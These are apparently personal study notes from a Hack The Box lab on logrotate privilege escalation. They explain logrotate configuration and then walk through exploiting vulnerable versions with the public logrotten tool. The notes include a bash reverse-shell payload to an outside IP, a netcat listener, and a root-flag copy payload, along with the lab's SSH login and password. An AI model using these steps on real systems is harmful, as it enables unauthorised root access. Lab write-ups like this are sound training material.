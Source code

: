 #review
- Archives and or deletes old logs
- Pulls logs from /var/log
- Started periodically via cron
- Controlled via the configuration file /etc/logrotate.conf
- Logs can be renamed or created for each new day, older ones are automatically renamed

```
datboyblu3@htb[/htb]$ man logrotate
datboyblu3@htb[/htb]$ # or
datboyblu3@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

### Logrotate Config File

```
datboyblu3@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

**Logrotate Status File**
This file can be used to set a new rotation either in the status file itself or using the `-f/--force` option
```
datboyblu3@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

**Application Config Files in /etc/logrotate.d**
```
datboyblu3@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

### Requirements to Exploit
- Must be writable
- Must run as privileged user or root
- Vulnerable Versions:
	- 3.8.6
	- 3.11.0
	- 3.15.0
	- 3.18.0

### Exploit Logrotate

The example is using a prefabricated exploit called [logrotten](https://github.com/whotwagner/logrotten)

**Create Payload**
```
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

**Determine which option logrotate uses in logrotate.conf**
```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

This logrotate option will create a new, empty log after rotating old ones

**Start your listener**
```
datboyblu3@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

**Execute the payload with logrotten**
```
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

## Questions

### SSH
```python
ssh htb-student@10.129.204.41
```

### Passwd
```python
HTB_@cademy_stdnt!
```

What version of logrotate is on the box and is it vulnerable?
```python
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
htb-student@ubuntu:~$
```
Yes it is!

### Transferring Logrotten to the target

Compress the logrotten directory like so:
```python
tar -czvf logrotten.tar.gz logrotten/
```

Now transfer the file:
```python
scp logrotten.tar.gz htb-student@10.129.204.41:/home/htb-student
htb-student@10.129.204.41's password: 
logrotten.tar.gz 
```

Compile the file
```python
gcc logrotten.c -o logrotten
```

Found log two files in `backups` directory. Which log triggers logrotate?
```python
htb-student@ubuntu:~/backups$ ls -l
total 4
-rw-r--r-- 1 htb-student htb-student  0 May 22 10:26 access.log
-rw-r--r-- 1 htb-student htb-student 91 May 22 10:26 access.log.1
```

==**Find which log activates logrotate** ==

..then..
```python
echo "/root/flag.txt > /home/htb-student/flag.txt" > payload
```

Then execute the payload with logrotten: Looked at the solution to get this, still don't know which access log triggers logrotate
```python
echo test >> /home/htb-student/backups/access.log; ./logrotten /home/htb-student/backups/access.log -p payload
```

